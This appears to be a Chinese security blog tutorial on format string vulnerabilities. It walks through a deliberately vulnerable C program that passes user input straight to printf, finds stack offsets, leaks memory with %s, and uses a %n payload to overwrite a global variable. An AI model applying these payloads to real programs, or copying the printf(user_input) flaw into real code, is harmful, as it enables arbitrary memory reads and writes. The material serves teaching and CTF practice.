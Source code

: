 ```yaml
---
layout: post
title: "[pwn] 格式化字符串漏洞解析和利用"
categories: "BinarySecurity"
---
```


#### 0x00 前言 ####

环境： kali 2016.2 i386
工具： peda

#### 0x01 漏洞描述 ####

Format String Vulnerability(格式化字符串漏洞)，漏洞的主要原理是由于使用用户的输入作为格式化字符串，通常针对的是print家族的函数(printf,sprintf,fprintf).常见的漏洞格式为

	printf(User_input);

由于printf并没有限定参数的个数，导致在user_input后面的数据都被解析为printf的参数，通过构造特定的格式化字符串，达到数据泄漏和数据写入。

如果`User_input="%x.%x`"被传入到printf中时，就会泄露栈上8个字节的数据信息。

#### 0x02 漏洞示例 ####

漏洞程序代码：

	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>

	int magic = 0x33445566;
	int key = 0x6c6d6e6f;

	int main(int argc, char *argv[]) {
    	char msg[256];
    	strcpy(msg, argv[1]);
   		printf(msg);
    	printf("\n");
    	if (magic == 0x6c6d6e6f) {
        	puts("nice job");
    	}   
    	return 0;
	}

编译：

	gcc -no-pie -o vul vul.c


首先计算计算用户的输入距离print函数的偏移(方便后续的读和写)

	addr1=$'\xaa\xbb\xcc\xdd'
	addr2=$'\x11\x22\x33\x44'
	for i in `seq 1 10`; do ./vul $addr1$addr2' '$i$' %'$i$'$p\n'; done

其中addr1为bash的变量，$表示转义

![formatsv]({{ '/images/201804/format_string_vul_2_1.png' | prepend: site.baseurl }})

通过输出我们可以得出用户的输入在偏移4和5的地方。

接下来我们尝试读取magic地址存放的字符，通过readelf获取变量的地址

![formatsv]({{ '/images/201804/format_string_vul_2_2.png' | prepend: site.baseurl }})

magic的地址为`0x080497a4`,通过设置addr环境变量为magic的地址来读取

	addr=$'\xa4\x97\x04\x08'
	./vul $addr'|%4$s'

![formatsv]({{ '/images/201804/format_string_vul_2_3.png' | prepend: site.baseurl }})

fUD3为magic的值，而onml是key的值，由于他们都存在于.data段中，并且是相邻的，因此通过%s都一起读取出来了

我们最后的目的是修改magic的值为0x6c6d6e6f通过检测

这里我们无法直接传入4个字节转入的10进制的数字，因为太大导致屏幕会一直在输入效率很低，通过以下的计算方式进行连续4字节的数据写入

如何写入连续的4个字节的数据

<pre>// We want to write the value n=0xdeadf00d to "address"
// Lower 16bits of n = 0xf00d = 61453
// Higher 16bits of n = 0xdead = 57005
int amount_lower = 61453;
int amount_higher = (57005 - 61453 + 0x10000) & 0xffff;
// amount_higher = 61088
// resulting in the following format string:
// (note the parameter indices for both addresses)
const char *fmt = "%61453c%5$n%61088c$6n";</pre>

我们需要写入0x6c6d6e6f

	low = 0x6e6f = 28271
	high = 0x6c6d = 27757

	r_high = (27757 - 28271 + 0x10000) & 0xffff = 0xfdfe = 65022

因此我们需要传入的参数为
	
	python -c 'print "\xa4\x97\x04\x08\xa6\x97\x04\x08|%28262c%4$n%65022c%5$n"'

通过gdb调试以下为在调用printf前的栈布局

![formatsv]({{ '/images/201804/format_string_vul_2_4.png' | prepend: site.baseurl }})

以下是调用后

![formatsv]({{ '/images/201804/format_string_vul_2_5.png' | prepend: site.baseurl }})

发现目标地址`0x080497a4`地址的内容成功被改写，并顺利绕过

![formatsv]({{ '/images/201804/format_string_vul_2_6.png' | prepend: site.baseurl }})

#### 0x03 总结 ####

通过程序演示，我们可以通过格式化字符串漏洞进行任意地址的读(目前知道通过%s来以字符串的形式泄漏)以及任意地址写，该漏洞在ctf经常用于信息泄漏
